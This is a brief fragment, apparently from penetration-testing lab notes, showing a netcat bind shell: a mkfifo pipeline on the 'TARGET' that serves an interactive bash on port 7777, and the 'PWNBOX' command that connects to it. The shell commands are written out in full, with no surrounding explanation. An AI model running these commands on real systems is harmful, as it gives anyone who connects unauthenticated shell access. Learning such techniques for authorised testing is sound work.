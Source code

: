 - TARGET 
```bash
# Starting the Netcat Listener
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -lvnp 7777 > /tmp/f
```
- PWNBOX
```bash
nc -nv $TARGET 7777
```
